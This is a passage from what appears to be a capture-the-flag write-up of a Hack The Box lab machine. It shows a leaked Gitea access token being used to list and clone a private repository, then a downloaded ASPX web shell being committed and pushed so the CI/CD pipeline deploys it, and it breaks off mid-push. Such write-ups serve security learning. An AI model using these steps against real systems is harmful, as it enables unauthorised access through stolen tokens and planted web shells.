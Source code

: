 <img width="3086" height="1089" alt="2025-08-24 113013" src="https://github.com/user-attachments/assets/3d13cecd-e20b-427d-95b8-93fb0aaa5dd9" />

I will copy the script with the personal access token in it and run it on my local Kali machine.

```bash
└─$ python3 repos.py http://10.129.234.64:3000
Repositories:
- ellen.freeman/dev-scripts
- ellen.freeman/website
```
Running the script, we discover a new repository /website which is set to private and we can’t git clone it or view it on the webpage. But since we have the personal token, we can use it to clone the repo.

```bash
└─$ git clone http://ellen.freeman:43ce39bb0bd6bc489284f2905f033ca467a6362f@10.129.234.64:3000/ellen.freeman/website.git
Cloning into 'website'...
remote: Enumerating objects: 165, done.
remote: Counting objects: 100% (165/165), done.
remote: Compressing objects: 100% (128/128), done.
remote: Total 165 (delta 35), reused 153 (delta 31), pack-reused 0
Receiving objects: 100% (165/165), 7.16 MiB | 1.70 MiB/s, done.
Resolving deltas: 100% (35/35), done.

```
And we have copied the repository to our Kali machine.

## Foothold

I didn’t find any interesting files, so I will check earlier commits.
```bash
└─$ git log --oneline --graph                                                                                           
* 73cdcc1 (HEAD -> main, origin/main, origin/HEAD) update
* 7650fa6 update
* 657a342 update
* 15ee839 update
* 0beaffb init
```
At /website/readme.md we find an interesting notice

```bash
└─$ cat readme.md      
# New Project Website

CI/CD integration is now active - changes to the repository will automatically be deployed to the webserver
```
That means I can create a web shell and push it, and it will be deployed.

I will grab the web shell from https://raw.githubusercontent.com/grov/webshell/refs/heads/master/webshell-LT.aspx and commit it.

```bash
┌──(kali㉿kali)-[~/…/htb/lock/files/website]
└─$ git add webshell.aspx 

┌──(kali㉿kali)-[~/…/htb/lock/files/website]
└─$ git commit -m "test" 
[main 9066b85] test
 1 file changed, 161 insertions(+)
 create mode 100644 webshell.aspx

```
```bash
└─$ git push            
Enumerating objects: 4, done.
```